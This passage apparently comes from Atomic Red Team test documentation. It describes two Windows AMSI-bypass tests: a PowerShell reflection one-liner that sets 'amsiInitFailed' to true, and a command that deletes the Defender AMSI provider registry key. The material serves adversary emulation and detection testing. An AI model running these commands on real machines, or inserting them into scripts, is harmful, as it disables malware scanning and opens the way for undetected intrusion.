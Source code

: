 


<br/>
<br/>

## Atomic Test #11 - AMSI Bypass - AMSI InitFailed
Any easy way to bypass AMSI inspection is it patch the dll in memory setting the "amsiInitFailed" function to true.
Upon execution, no output is displayed.

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Cleanup Commands:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$false)
```





<br/>
<br/>

## Atomic Test #12 - AMSI Bypass - Remove AMSI Provider Reg Key
With administrative rights, an adversary can remove the AMSI Provider registry key in HKLM\Software\Microsoft\AMSI to disable AMSI inspection.
This test removes the Windows Defender provider registry key. Upon execution, no output is displayed.
Open Registry Editor and navigate to "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\" to verify that it is gone.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)


```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse
```
